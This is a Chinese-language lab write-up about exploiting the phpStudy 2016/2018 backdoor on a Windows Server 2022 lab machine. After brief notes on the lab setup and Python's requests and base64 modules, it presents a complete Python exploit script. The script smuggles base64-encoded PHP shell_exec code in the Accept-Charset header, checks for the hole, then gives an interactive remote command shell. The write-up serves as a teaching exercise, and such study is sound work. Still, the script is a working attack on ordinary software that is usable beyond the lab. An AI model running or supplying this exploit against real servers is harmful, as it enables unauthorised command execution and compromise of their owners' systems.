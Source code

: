 ## 实验说明

> 实验环境

- kali Linux
- windows server 2022
- python3

> 实验目标

1. 挖掘安装在靶机windows server 2022上的 php study 环境的rce漏洞；
2. 编写脚本判断是否存在该漏洞，并对漏洞加以利用



## 相关知识

### requests模块

`requests` 是一个用于发送 HTTP 请求的 Python 库，它提供了简洁且易于理解的 API，支持常见的 HTTP 方法、参数设置、响应处理等功能。通过 `requests`，可以轻松地与 Web 服务进行通信，执行各种操作，如获取数据、上传文件、处理身份验证等。



### base64模块

base64 模块就是用来进行base64 编解码操作的模块。



## 实验过程

> 1.漏洞发现

正常访问phpinfo.php

![image-20240325204553220](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240325204553220.png)

我们发现，当我们将命令转换为base64编码，手动加入请求时，会出现如下情况：

![image-20240325204929818](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240325204929818.png)

![image-20240325205042313](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240325205042313.png)

这代表着该php有着rce漏洞；

> 2.编写脚本 PHP_study_2016-18_RCE_EXP.py

1.使用脚本实现判断有无漏洞；

2.对漏洞进行利用；

```py
import requests
import base64
import sys
import random
import string

# 定义横幅
banner = """
-------------------------------------------------------------------------------------------
-  -------------------------------------------------------------------------------------  -  
-  -  PPPP   H   H  PPPP    SSS    TTTTT  U   U  DDDD   YY   YY   RRRR   CCCC   EEEEE  -  -
-  -  P   P  H   H  P   P  S         T    U   U  D   D   YY YY    R   R  C      E      -  -
-  -  PPPP   HHHHH  PPPP    SSS      T    U   U  D   D    YYY     RRRR   C      EEEE   -  -
-  -  P      H   H  P          S     T    U   U  D   D    YYY     R  R   C      E      -  -
-  -  P      H   H  P      SSSSS     T     UUU   DDDD     YYY     R   R  CCCC   EEEEE  -  -
-  -                                                                                   -  -
-  -                                                                                   -  -
-  -            Usage: python3 [py_name].py http://[ip]/phpinfo.php                    -  -
-  -------------------------------------------------------------------------------------  -
-------------------------------------------------------------------------------------------
"""

# 定义攻击函数
def attack(url, cmd):
    # 将命令进行 base64 编码
    cmd = base64.b64encode(f"print(shell_exec('{cmd}'));".encode())
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0",
        "Accept-Encoding": "gzip,deflate",
        "Accept-Charset": cmd
    }
    try:
        # 发送 GET 请求并获取响应
        res = requests.get(url=url, headers=headers)
        # 解码响应内容并提取有效信息
        html = res.content.decode("gb2312")
        result = html[0:html.index("<!DOCTYPE html")].strip()
        return result
    except Exception as e:
        # 捕获异常并打印错误信息	`
        print(f"[-] An error occurred: {e}")
        return None

# 生成随机字符串
def random_str():
    return ''.join(random.choices(string.ascii_letters + string.digits, k=8))

# 检查目标是否存在漏洞
def check_vuln(url):
    random_s = random_str()
    cmd = f"echo {random_s}"
    # 发起攻击，检查是否返回了随机字符串
    result = attack(url, cmd)
    if result and random_s in result:
        print("[+] The target appears to be VULNERABLE!")
        return True
    else:
        print("[+] The target seems NOT to be VULNERABLE!")
        return False
    
if __name__ == "__main__":
    # 获取命令行参数
    if len(sys.argv) < 2:
        exit(banner)
    url = sys.argv[1]
    # 检查目标是否存在漏洞
    if not check_vuln(url):
        exit()
    act = input("Do you want to continue?[Y/n]")
    if act == 'n':
        exit()
    while True:
        cmd = input("[Please enter cmd]#")
        if cmd == 'q' or cmd == 'quit':
            break
        print(attack(url, cmd))

```

> 执行结果
>

![image-20240325224941093](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240325224941093.png)





